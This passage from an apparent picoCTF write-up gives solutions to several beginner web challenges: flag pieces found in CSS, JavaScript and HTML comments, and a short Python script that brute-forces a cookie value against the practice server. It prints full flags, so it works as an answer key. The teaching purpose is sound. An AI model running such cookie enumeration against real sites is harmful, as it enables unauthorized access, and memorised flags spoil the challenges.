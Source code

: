 part 1 at `style.css` file 
```python
body {
  background-color: lightblue;
}

/*  picoCTF{1nclu51v17y_1of2_  */
```
part 2 at `script.js` file
```python
function greetings()
{
  alert("This code is in a separate file!");
}

//  f7w_2of2_b8f4b022}
```

### Cookies

`Description`
```
Who doesn't love cookies? Try to figure out the best one.   
```

In this challenge, I tried many different values, but none worked. Then I noticed that changing the value of 'name' resulted in different responses, so I brute-forced the values until I got the flag.

`exploit`
```python
import requests

url = "http://mercury.picoctf.net:17781/check"

for i in range(101):
    cookie = {"name": str(i)}
    res = requests.get(url,cookies=cookie)

    if "picoCTF{" in res.text:
        print(res.text)
        break
```
`flag: picoCTF{3v3ry1_l0v3s_c00k135_bb3b3535}`

### Scavenger Hunt

`Description`
```
There is some interesting information hidden around this site http://mercury.picoctf.net:27393/. Can you find it?  
```

at this challenge, there are a total of 5 parts of the `flag`

* **part 1**
open `devtools`
```
<!-- Here's the first part of the flag: picoCTF{t -->
```
